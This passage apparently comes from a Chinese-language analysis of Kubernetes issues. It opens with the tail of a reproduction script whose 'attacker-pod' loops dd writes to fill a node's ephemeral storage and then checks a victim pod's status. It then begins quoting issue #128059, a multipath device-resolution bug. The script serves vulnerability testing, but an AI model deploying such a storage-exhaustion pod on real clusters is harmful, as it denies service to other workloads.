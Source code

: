 ```json
    "cmd": "cat <<EOF > attacker-pod.yaml\napiVersion: v1\nkind: Pod\nmetadata:\n  name: attacker-pod\nspec:\n  containers:\n  - name: attacker-container\n    image: alpine\n    command: [\"/bin/sh\", \"-c\", \"while true; do dd if=/dev/zero of=/tmp/fill.txt bs=10M count=1024; done\"]\n    volumeMounts:\n    - name: temp-storage\n      mountPath: /tmp\n  volumes:\n  - name: temp-storage\n    emptyDir: {}\nEOF",
    "explain": "创建一个持续写入数据以消耗临时存储的攻击者Pod的配置文件。"
  },
  {
    "cmd": "kubectl apply -f attacker-pod.yaml",
    "explain": "部署攻击者Pod以开始消耗节点的临时存储资源。"
  },
  {
    "cmd": "kubectl get pods",
    "explain": "查看当前所有Pod的状态，观察vulnerable-pod的状态是否保持为Running。"
  },
  {
    "cmd": "kubectl describe pod vulnerable-pod",
    "explain": "查看vulnerable-pod的详细信息，确认其状态和事件日志。"
  },
  {
    "cmd": "kubectl get endpoints",
    "explain": "检查vulnerable-pod是否仍然在服务端点列表中。"
  }
]
```

---

## Issue #128059 iscsi/fc volume with multipath can be incorrectly resolved to partition

- Issue 链接：[#128059](https://github.com/kubernetes/kubernetes/issues/128059)

### Issue 内容

#### What happened?

If worker nodes are configured so that multipath symlink under `/dev/disk/by-id` points directly to device mapper device (dm-X) the FC/iSCSI volume plugin code in Kubernetes can not handle this well and finds incorrect device.

This is because `FindMultipathDeviceForDevice` function can be called with already resolved symlink and still tries to resolve it further to find its parent - this can resolve in matching a partition of the device, see details below.


If we have a multipath device `scsi-36001405f3392bf76369422cbfd8acd80` pointing to `dm-2`:

```
ls -l /dev/disk/by-id/scsi-36001405f3392bf76369422cbfd8acd80
lrwxrwxrwx. 1 root root 10 Oct 14 14:43 /dev/disk/by-id/scsi-36001405f3392bf76369422cbfd8acd80 -> ../../dm-2
```
